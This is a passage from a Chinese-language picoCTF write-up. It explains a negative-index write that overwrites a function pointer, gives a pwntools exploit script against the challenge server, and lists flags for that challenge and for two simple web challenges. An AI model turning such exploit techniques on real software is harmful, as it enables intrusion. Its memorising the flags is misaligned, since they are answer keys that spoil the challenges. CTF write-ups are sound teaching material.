 ```C
{

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

需要将函数指针check从hard_checker改为easy_checker。因为hard_checker会检查输入的story所有字节的ASCII码之和是否为13371337，由于输入长度有限，这显然不可能，而easy_checker则检查和是否为1337，可以实现。后面有一个在指定地址修改值的操作，使用负数绕过检查修改函数指针的值即可。

payload：

```python\
from pwn import *

# io = process('./vuln')
io = remote('saturn.picoctf.net', 54514)

io.sendlineafter(b'Tell me a story and then I\'ll tell you if you\'re a 1337 >> ', b'A' * 20 + b'%')

io.sendlineafter(b'On a totally unrelated note, give me two numbers. Keep the first one less than 10.', b'-16 -314\n')

io.interactive()
```

picoCTF{0v3rwrit1ng_P01nt3rs_529bfb38}

# 2. web 部分

web没有系统学过，但是有的题过于简单，也能做。

## 1. Includes

打开网页直接F12调出源码即可。

picoCTF{1nclu51v17y_1of2_f7w_2of2_df589022}

## 2. Inspect HTML

打开网页直接F12调出HTML即可。

picoCTF{1n5p3t0r_0f_h7ml_1fd8425b}

## 3. Local Authority
